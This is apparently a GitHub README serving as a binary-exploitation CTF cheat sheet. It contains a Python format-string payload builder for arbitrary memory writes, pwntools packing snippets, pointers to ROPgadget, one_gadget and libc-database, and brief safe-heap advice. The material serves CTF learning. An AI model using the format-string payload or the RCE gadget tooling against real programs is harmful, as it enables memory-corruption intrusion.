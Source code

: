 # pwn-cheat-sheet

### Format string - write value into address
###### taken from https://github.com/sefi-roee/CTFs-Writeups/blob/master/picoCTF-2018/Binary/12-echo_back-500/solution.md
```python
def write_memory(address, value):
  v1 = (value & 0x0000FFFF) - 8
  v2 = (value >> 16) - (value & 0x0000FFFF)

  if v2 < 0:
    v2 += 0x00010000

  ret = p32(address) + p32(address + 2) + '%{}x'.format(v1) + '%7$hn'

  if v2 != 0:
    ret += '%{}x'.format(v2)

  ret += '%8$hn'

  return ret
  ```
### Pack (int to str)
###### taken from http://docs.pwntools.com/en/stable/util/packing.html
```
p32(0x12345678)         # 4 byte value
p64(0x1234567812345678) # 8 byte value
```

### Unpack (str to int)
###### taken from http://docs.pwntools.com/en/stable/util/packing.html
```
u = make_unpacker(32, endian='little', sign='unsigned') # 4 byte value
u = make_unpacker(64, endian='little', sign='unsigned') # 8 byte value
```

### ROPgadget
###### taken from https://github.com/JonathanSalwan/ROPgadget
###### clone date:  13.8.2019
This tool lets you search your gadgets on your binaries to facilitate your ROP exploitation. ROPgadget supports ELF, PE and Mach-O format on x86, x64, ARM, ARM64, PowerPC, SPARC and MIPS architectures.

### one_gadget
###### clone date:  13.8.2019
###### taken from https://github.com/david942j/one_gadget
Tool for finding one gadget RCE in libc

### libc-database
###### taken from https://github.com/niklasb/libc-database
###### clone date:  13.8.2019
Database of libc functions offsets

### Safe heap managements
* After free(X) set X value to 0
* After malloc(size) reset the memory region you got, or initialize the memory with default safe values

**Without these operations the code may be vulnarble !! (UAF, Double Free, etc..)**

